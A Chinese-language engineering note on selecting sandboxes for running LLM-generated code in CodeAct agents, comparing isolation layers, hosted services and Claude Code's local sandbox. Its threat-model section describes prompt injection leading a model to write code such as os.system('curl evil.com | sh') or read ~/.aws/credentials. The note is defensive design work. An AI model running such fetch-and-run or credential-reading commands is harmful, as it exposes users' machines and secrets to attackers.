


# 代码执行沙箱选型(CodeAct / LLM 写代码 → 沙箱执行)

> 场景:agent 用 CodeAct 范式让 LLM 生成代码当动作,代码必须在沙箱里执行。本篇讲**怎么选沙箱**。配套:`0-action-paradigm.md`(动作范式)、`jd-senior-agent-engineer/02-tool-gateway-auth-and-contract.md`(工具网关)、`jd-senior-agent-engineer/07-safety-guardrails.md`(护栏)。

---

## 0. 前提:把 LLM 生成的代码当"敌意代码"

这是决定一切的判断。别默认"自家 agent 写的代码可信"——**错**:

- **prompt 注入**:用户输入、检索到的网页/文档里可藏指令,诱导 LLM 写出 `os.system("curl evil.com | sh")`、读 `~/.aws/credentials`、扫内网。
- 所以无论代码"出身"如何,**一律按不可信、可能主动攻击对待**。

威胁模型一旦定为"敌意",就排除一批"轻量但不安全"的方案(下面点名)。

---

## 1. 选型的三个正交轴

很多人把"沙箱原语 vs 云端方案"混着说,其实是三个独立的轴:

1. **隔离机制**:用什么技术把代码关起来(语言级 → OS 原语 → 容器 → microVM → WASM → 硬件)。**隔离强度只由这条轴决定。**
2. **谁来运维**:自建 vs 买托管服务。托管不是新机制,只是把某层机制打包成 API。
3. **运行位置**:宿主/本地、云端远程、客户端浏览器内。

---

## 2. 选型的 6 个维度

| 维度 | 关键问题 | 影响 |
|---|---|---|
| **隔离强度** | 逃逸了能拿到什么? | 决定底层技术(容器 vs microVM) |
| **冷启动延迟** | 一次任务跑几十次代码,每次等多久? | 决定 warm pool / 用 WASM |
| **有状态性** | 变量/文件要跨多次执行保留吗(REPL/notebook)? | 决定 session 生命周期与存储 |
| **运行时依赖** | 要 `pip install`、装系统库、用 GPU 吗? | WASM 装不了原生依赖 → 出局 |
| **网络策略** | 要联网取数/调 API,还是必须断网防外泄? | 决定 egress 是否可控 |
| **成本 / 合规** | 数据能不能出域?规模多大? | 决定自建 vs 托管 |

---

## 3. 隔离机制全景(轴一,按层级从浅到深)

| 层级 | 代表技术 | 隔离强度 | 冷启动 | Agent 适用 |
|---|---|---|---|---|
| **① 语言/解释器内** | RestrictedPython、V8 isolate(isolated-vm)、Lua 沙箱 | ❌弱(同进程) | 微秒 | 仅可信代码 |
| **② OS 原生原语** | macOS Seatbelt;Linux seccomp-bpf + namespaces + Landlock + capabilities;封装器 bubblewrap / nsjail / firejail | ⚠️中(共享内核) | 毫秒 | 宿主侧约束(Claude Code 走这条) |
| **③ 容器** | Docker / podman(仅 namespace) | ⚠️偏弱 | ~秒 | 单独兜不住敌意代码 |
| **④ 强化容器运行时** | gVisor(runsc,用户态内核拦 syscall)、Kata Containers(容器壳套轻量 VM)、sysbox | ✅强 | 亚秒~秒 | 容器体验 + 强隔离 |
| **⑤ microVM / VM** | Firecracker、Cloud Hypervisor、QEMU/KVM、AWS Nitro | ✅✅很强 | ~125ms(微VM)/ 秒级(全VM) | **敌意代码事实标准** |
| **⑥ WASM / 语言 VM** | Pyodide(CPython→WASM)、wasmtime / WasmEdge / Wasmer、WASI | ✅强(设计即沙箱) | 毫秒 | 轻量计算、边缘、浏览器内 |
| **⑦ 机密计算(硬件)** | Intel SGX/TDX、AMD SEV、ARM CCA | ✅✅✅(连宿主管理员都隔离) | 重 | 数据连云厂商都不能看 |
| (旁支)Unikernel | MirageOS、Nanos | 强(攻击面极小) | 快 | 单一用途,生态小,少见 |

> 越往下隔离越强但越重/越慢。**敌意代码的"够用线"在 ④ gVisor / ⑤ Firecracker**;②③ 单独对敌意代码不够;① 基本只配可信代码。

### 隔离强度光谱(速记)

```
exec()/RestrictedPython  <  Docker(仅 namespace)  <  gVisor / seccomp  <  Firecracker microVM  <  独立 VM
        ❌敌意代码不可用            ⚠️不够                  ✅够用                ✅✅推荐(轻量+强隔离)
```

---

## 4. 自建 vs 买托管(轴二)

托管服务**不是第八种机制**,而是把上面某层打包成 API + 计费 + 运维:



- **买(托管)——默认起点,最快上线**
  - **E2B**:agent 原生,持久 session(变量/文件跨调用保留)、Firecracker 底座。notebook / 数据分析型首选。
  - **Modal**:偏算力(GPU、长任务、批处理)。
  - **Daytona / Riza / Cloudflare Sandbox SDK** 同条线。
  - **厂商自带**:Anthropic code execution tool、OpenAI Code Interpreter——只想开箱即用、不自运维时直接用,省掉整层基建。
  - 取舍:上手快、安全交给厂商;代价是**按量计费、数据要出域、定制受限**。
- **自建(Firecracker / gVisor + warm pool)——规模化 / 合规**
  - 当**数据不能出域**、**规模大到托管费扛不住**、或要深度定制(自定义镜像、内网访问)时自建,配预热池压冷启动。
  - 取舍:控制力 + 长期成本最优;代价是**运维重**(镜像、回收、配额、安全更新自扛)。
- **WASM(Pyodide / wasmtime)——轻量 / 强隔离但受限**
  - 启动毫秒级、隔离天然好,能跑边缘甚至浏览器。
  - 硬伤:**装不了任意原生依赖**(带 C 扩展的 pip 包跑不了)、性能有损。
  - 适合纯计算、确定的轻量 Python。

---

## 5. 运行位置(轴三)

- **宿主/本地**(Claude Code 式):跑在用户机器上,目标是"约束 agent 别乱碰本机" → 用 ② OS 原语。
- **云端远程**:跑在你控制的服务器/云上,目标是"隔离敌意代码" → 用 ④/⑤。
- **客户端/浏览器内**:用 ⑥ WASM(Pyodide),代码在用户浏览器里跑,服务端零执行风险。

---

## 6. 决策树(可直接用)



一句话:**默认 E2B/Modal 托管起步;数据出不了域或要省钱再自建 Firecracker;纯轻量算用 WASM;永远别用裸 exec / 仅 Docker 兜敌意代码。**

---

## 7. 不管选哪个,这几条硬约束都要做(面试常追问)

沙箱选型只是一半,**周边管控**同样关键:

1. **Ephemeral**:每个 session 用完即销毁,绝不复用实例给下一个用户。
2. **沙箱内无凭证**:API key / DB 密码**不进沙箱**。调外部工具走**宿主侧 broker/proxy**代发,沙箱只拿能力句柄。
3. **Egress allow-list**:默认断网,只放行白名单域名;防外泄和拉恶意 payload。
4. **资源 + 时间硬限额**:CPU/内存/磁盘配额 + 执行超时 + 强杀,防 fork bomb / 死循环 / 挖矿。
5. **只读根 + 受限可写区**:文件系统最小可写,挂载受控。
6. **输出截断**:stdout/stderr 限长,防超大输出撑爆上游 context。

---

## 8. 案例:Claude Code 的沙箱(宿主侧 ② OS 原语)

Claude Code 不跑 microVM,而是用 **OS 原生沙箱原语**包住 Bash 工具——典型的**轴三=本地、轴一=② OS 原语**组合。

| 平台 | 底层技术 | 作用 |
|---|---|---|
| **macOS** | Seatbelt(`sandbox-exec`,系统自带) | 无需安装,限制文件/网络 |
| **Linux / WSL2** | bubblewrap(bwrap)非特权命名空间 + socat 转发 | 文件系统隔离 + 网络走代理 |
| WSL1 | 不支持(bwrap 需要的内核特性 WSL1 没有) | — |

启用:在 Claude Code 里跑 `/sandbox`。

**两层隔离**:

1. **文件系统隔离**:限定可读可写范围(通常工作目录),挡住 `~/.ssh`、`~/.aws/credentials`、系统目录。
2. **网络隔离(egress allow-list)**:所有流量强制走**沙箱外的本地代理**(经 unix domain socket),按域名白名单放行;想绕过代理的非 loopback 流量**被内核 block**。

**它解决的真问题:不是隔离敌意代码,而是"减少授权疲劳"**——这是和 E2B 沙箱的根本差异:

- **E2B/Firecracker**:在云端跑敌意代码,逃逸了也碰不到你的东西(强隔离)。
- **Claude Code 沙箱**:跑在你自己机器上,把命令关进"只能碰工作目录 + 只能联白名单域名"的盒子,于是这些命令**不必每条弹窗问你批准** → agent 能更自主连续执行。默认机制是权限系统(approve/deny 弹窗),沙箱是它的进阶:用 OS 级隔离换"免弹窗的自主性"。

**注意边界**:它**不是**对抗强敌意代码的 microVM 级隔离。社区已有分析:通过被允许的 egress 域名仍可能数据外泄(allow-list 配太宽就有缝),Seatbelt 策略也有被绕过的研究。所以它是"纵深防御的一层 + 体验优化",真要跑不可信代码仍应上 ④/⑤。

参考:
- Claude Code 官方文档 — Configure the sandboxed Bash tool:https://code.claude.com/docs/en/sandboxing
- Anthropic 工程博客 — Making Claude Code more secure and autonomous with sandboxing:https://www.anthropic.com/engineering/claude-code-sandboxing

---

## 9. 速记卡

- 问"LLM 写的代码可信吗" → **不可信**,prompt 注入让任意代码都可能敌意 → 威胁模型先定"敌意"。
- 问"Docker 够不够" → 共享内核、逃逸 CVE 多,**单独不够**;要 gVisor / Firecracker。
- 问"E2B 底层是什么" → Firecracker microVM(AWS Lambda / Modal 同源)。
- 问"Claude Code 用什么沙箱" → macOS Seatbelt / Linux bubblewrap + 网络代理白名单;目的是免授权疲劳,不是隔离敌意代码。
- 问"三个轴" → 隔离机制(强度由它定)/ 自建 vs 托管 / 运行位置。
- 选型一句话:**默认托管(E2B/Modal)→ 合规或规模化自建 Firecracker → 轻量算 WASM → 永不裸 exec/仅 Docker 兜敌意代码;无论选谁都要 ephemeral + 无凭证 + egress allow-list + 资源限额。**
